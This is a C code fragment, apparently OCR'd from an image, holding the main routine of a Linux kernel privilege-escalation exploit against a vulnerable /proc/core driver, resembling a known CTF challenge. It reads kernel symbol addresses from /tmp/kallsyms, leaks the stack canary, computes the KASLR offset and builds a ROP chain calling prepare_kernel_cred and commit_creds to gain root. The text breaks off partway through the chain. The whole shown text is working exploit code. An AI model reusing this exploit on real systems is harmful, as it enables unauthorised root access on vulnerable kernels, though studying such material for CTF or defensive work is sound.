 ```c

int main() {
    FILE *syms;
    int fd;
    size_t offset;

    size_t addr;
    size_t canary;
    char type[256], name[256];

    size_t rop[0x100], i;

    puts("\033[34m\033[1m[*] Start to exploit...\033[0m");
    save_status();
    signal(SIGSEGV, shell);

    fd = open("/proc/core", O_RDWR);
    if (fd < 0) {
        puts("\033[31m\033[1m[-] Open /proc/core failed.\033[0m");
        exit(0);
    }

    syms = fopen("/tmp/kallsyms", "r");
    if (syms == NULL) {
        puts("\033[31m\033[1m[-] Open /tmp/kallsyms failed.\033[0m");
        exit(0);
    }

    while (fscanf(syms, "%lx %s %s", &addr, type, name)) {
        if (prepare_kernel_cred && commit_creds) {
            break;
        }

        if (!prepare_kernel_cred && strcmp(name, "prepare_kernel_cred") == 0) {
            prepare_kernel_cred = addr;
            printf("\033[33m\033[1m[√] Found prepare_kernel_cred: %lx\033[0m\n", prepare_kernel_cred);
        }

        if (!commit_creds && strcmp(name, "commit_creds") == 0) {
            commit_creds = addr;
            printf("\033[33m\033[1m[√] Found commit_creds: %lx\033[0m\n", commit_creds);
        }
    }

    offset = commit_creds - 0x9c8e0 - 0xffffffff81000000;
    core_set_offset(fd, 64);
    core_read(fd, name);
    canary = ((size_t *)name)[0];
    printf("\033[34m\033[1m[*] offset: 0x%lx\033[0m\n", offset);
    printf("\033[33m\033[1m[√] Canary: %lx\033[0m\n", canary);

    for (i = 0; i < 10; i++) rop[i] = canary;
    rop[i++] = POP_RDI_RET + offset;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;
    rop[i++] = POP_RDX_RET + offset;
    rop[i++] = POP_RCX_RET + offset;
    rop[i++] = MOV_RDI_RAX_CALL_RDX + offset;
    rop[i++] = commit_creds;
    rop[i++] = SWAPGS_POPFQ_RET + offset;
    rop[i++] = 0;
    rop[i++] = IRETQ + offset;
```